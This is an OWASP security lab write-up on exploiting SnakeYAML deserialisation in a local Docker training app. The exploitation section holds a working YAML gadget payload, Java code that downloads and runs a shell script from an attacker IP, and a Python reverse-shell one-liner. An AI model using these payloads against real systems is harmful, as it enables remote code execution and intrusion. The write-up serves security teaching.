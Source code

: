 # Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](../../.gitbook/assets/java/DES-YAML/1.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](../../.gitbook/assets/java/DES-YAML/2.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](../../.gitbook/assets/java/DES-YAML/3.png)

In the code example the _input_ URL parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
    @GetMapping("/config/{input}")
    public String input(@PathVariable String input, Model model) {
        byte[] decodedInputBytes = Base64.getDecoder().decode(input);
        String decodedString = new String(decodedInputBytes);
        Yaml yaml = new Yaml();
        Object obj = yaml.load(decodedString);     
        model.addAttribute("content",obj.toString());
        return "index.html";
      }
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: knoot knoot
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDoga25vdCBrbm9vb3QK
```

![](../../.gitbook/assets/java/DES-YAML/4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Java Yaml injections on the Internet we will learn that it's possible in Yaml and the Java implementation to invoke a subprocess that will allow us to execute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://0.0.0.0:80"]
  ]]
]
```

Base64:

```
ISFqYXZheC5zY3JpcHQuU2NyaXB0RW5naW5lTWFuYWdlciBbCiAgISFqYXZhLm5ldC5VUkxDbGFzc0xvYWRlciBbWwogICAgISFqYXZhLm5ldC5VUkwgWyJodHRwOi8vMC4wLjAuMDo4MCJdCiAgXV0KXQ==
```

Now when we submit the new yaml object we can see it launched HTTP request to destionation and we observed this outbound request on our web server. 

![](../../.gitbook/assets/java/DES-YAML/5.png)

Let's try getting a revershell!

We can use this [Java Yaml Payload Project](https://github.com/artsploit/yaml-payload) for generating payloads for the SnakeYAML deserialization to run commands on the target server.

We should alter the project as below so that it will run commands on the target server.
```
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://192.168.13.131:1234/revshell.sh -o /tmp/revshell.sh");
            Runtime.getRuntime().exec("bash /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

After the changes, build the project and generate malicious .jar file to be executed by the target application

```
#Build:
javac <PATH>/yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java
```
```
#Generate Jar:
jar -cvf yaml-payload.jar -C <PATH>src/ .
```

The content of the revshell.sh is given below;
```
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.13.131",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Please! change IP:Port according to your setup before usage.

The setup is ready and let's execute the attack...

![](../../.gitbook/assets/java/DES-YAML/6.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
